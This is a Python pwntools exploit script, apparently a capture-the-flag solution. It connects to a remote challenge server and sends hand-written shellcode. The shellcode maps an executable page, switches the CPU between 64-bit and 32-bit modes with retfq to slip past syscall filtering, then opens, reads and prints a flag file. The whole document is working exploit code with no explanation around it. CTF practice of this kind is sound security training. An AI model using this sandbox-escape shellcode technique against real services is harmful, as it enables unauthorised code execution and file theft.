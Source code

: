 ```python
from pwn import *
# io = process("./shellcode")
io = remote('pwn.archive.xdsec.chall.frankli.site', 10053)

def asm64(sc):
    return asm(sc, os='linux', arch='amd64')
def asm32(sc):
    return asm(sc, os='linux', arch='i386')

# mmap(0x40404040, 0x1000, 7, 34, 0, 0) rax=9
mmap = asm64('''
mov edi, 0x40404040
xor rsi,rsi
mov esi,0x1000
xor rdx,rdx
xor dl,7
push 0x22
pop r10
xor r8, r8
dec r8
xor r9, r9
xor rax,rax
mov eax,9
syscall
''')
# read(0, 0x40404040, 0x1000) rax=0
read = asm64('''
xor rdi,rdi
xor rsi,rsi
mov esi, 0x40404040
xor rdx,rdx
mov edx,0x1000
xor rax, rax
syscall
''')
# rsp was cut off, so change it
rsp = asm64('''
mov rsp, 0x40404840
''')
to32 = asm64('''
push 0x23
push 0x40404040
retfq
''')

sc1 = mmap + read + rsp + to32
io.sendline(sc1)

openflag = asm32(shellcraft.i386.linux.open('./flag'))
ret264 = asm32('''
push 0x33
push 0x40404065
// retfq
''') + b'H\xcb'
readflag = asm64(shellcraft.amd64.linux.read(3, 0x40404840, 0x100))
writeflag = asm64(shellcraft.amd64.linux.write(1, 0x40404840, 0x100))

sc2 = openflag + ret264 + readflag + writeflag
io.sendline(sc2)

io.interactive()
```

